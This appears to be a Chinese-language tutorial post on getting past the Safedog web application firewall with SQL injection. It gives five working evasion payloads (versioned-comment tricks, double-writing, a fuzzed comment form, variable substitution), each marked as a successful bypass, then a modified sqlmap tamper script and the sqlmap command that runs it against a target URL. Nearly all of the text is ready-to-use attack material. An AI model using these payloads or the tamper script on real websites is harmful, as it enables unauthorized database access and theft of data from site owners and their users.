










# 安全狗绕过

1、使用注释非注释/*!Num*/Num这个数字是五位数字,如果当前数据库版本大于这串数字，此时/*!后面的内容不再被当做注释，否则任然被当做注释Payload /*!99999hello*/  union /*!99999hello*/  select 1,2,user/*!99999hello*/ ()-- +

 

成功绕过

 

2、使用小于mysql版本的五位数字 放到非注释里面Payload  /*!44532union*/ /*!44532select */ 1,2,user/*!99999hello*/ ()-- +

成功绕过

 

3、双写绕过Payload /*!44532union /*!44532select */ 1,2,user/*!99999hello*/ ()-- +

 

4、/*%!a*/ 通过fuzz尝试出来的 Payload  union/*%!a*/select 1,2,user/*%!a*/() --+

 

终极杀招 5、变量替换Payload a=/*&id=-1' union select 1,2,user() --+&b=*/

 

\4. 编写sqlmap绕狗脚本(在我给的脚本基础上进行修改)

过狗脚本修改

这里采用的是将versionedmorekeywords.py脚本进行更改

 

   >>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')  '1/*!44444UNION*//*!44444ALL*//*!44444SELECT*//*!44444NULL*/,/*!44444NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!44444AS*//*!44444CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'  """   def process(match):    word = match.group('word')    if word.upper() in kb.keywords:      return match.group().replace(word, "/*!44444%s*/" % word)    else:      return match.group()   retVal = payload   if payload:    retVal = re.sub(r"(?<=\W)(?P<word>[A-Za-z_]+)(?=[^\w(]|\Z)", lambda match: process(match), retVal)    retVal = retVal.replace(" /*!44444", "/*!44444").replace("*/ ", "*/")   return retVal

 

python sqlmap.py -u "http://www.sqli.com/Less-1/?id=1" --tamper=safedog.py --random-agent -v 3 --flush-session

 

 

 

